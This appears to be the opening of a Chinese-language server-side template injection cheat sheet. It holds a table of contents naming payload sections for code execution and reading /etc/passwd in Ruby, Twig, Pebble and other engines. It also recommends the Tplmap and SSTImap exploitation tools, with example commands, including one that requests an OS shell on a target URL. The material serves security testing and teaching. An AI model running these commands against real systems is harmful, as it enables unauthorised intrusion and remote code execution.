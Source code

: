     - [从TemplateNamespace直接访问os](#直接从TemplateNamespace访问os)
  - [Java - Pebble](#pebble)
    - [Pebble - 基础注入](#pebble---基础注入)
    - [Pebble - 代码执行](#pebble---代码执行)
  - [Ruby](#ruby)
    - [Ruby - 基础注入](#ruby---基础注入)
    - [Ruby - 检索 /etc/passwd](#ruby---检索-etc-passwd)
    - [Ruby - 列出文件和目录](#ruby---列出文件和目录)
    - [Ruby - 代码执行](#ruby---代码执行)
  - [PHP - Smarty](#smarty)
  - [PHP - Twig](#twig)
    - [Twig - 基础注入](#twig---基础注入)
    - [Twig - 模板格式](#twig---模板格式)
    - [Twig - 任意文件读取](#twig---任意文件读取)
    - [Twig - 代码执行](#twig---代码执行)
  - [Java - Velocity](#java---velocity)
  - [Java - Spring](#java---spring)
  - [PHP - patTemplate](#pattemplate)
  - [PHP - PHPlib](#phplib-and-html_template_phplib)
  - [PHP - Plates](#plates)
  - [参考资料](#参考资料)

## 工具

推荐工具：

[Tplmap](https://github.com/epinna/tplmap) - 服务器端模板注入和代码注入检测与利用工具

例如：

```powershell
python2.7 ./tplmap.py -u 'http://www.target.com/page?name=John*' --os-shell
python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=*&comment=supercomment&link"
python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=InjectHere*&comment=A&link" --level 5 -e jade
```

[SSTImap](https://github.com/vladko312/SSTImap) - 基于[Tplmap](https://github.com/epinna/tplmap)的自动SSTI检测工具，具有交互式界面

例如：

```powershell
python3 ./sstimap.py -u 'https://example.com/page?name=John' -s
python3 ./sstimap.py -u 'https://example.com/page?name=Vulnerable*&message=My_message' -l 5 -e jade
python3 ./sstimap.py -i -A -m POST -l 5 -H 'Authorization: Basic bG9naW46c2VjcmV0X3Bhc3N3b3Jk'
```

## 方法论

![SSTI秘籍工作流程](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Images/serverside.png?raw=true)

---
